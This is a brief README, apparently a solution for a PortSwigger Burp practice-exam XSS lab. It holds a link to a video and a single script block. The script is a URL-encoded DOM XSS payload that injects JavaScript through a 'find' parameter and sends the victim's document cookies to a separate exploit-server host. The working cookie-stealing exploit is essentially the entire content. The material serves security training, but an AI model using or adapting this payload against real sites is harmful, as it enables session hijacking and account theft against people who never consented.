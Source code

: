 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```

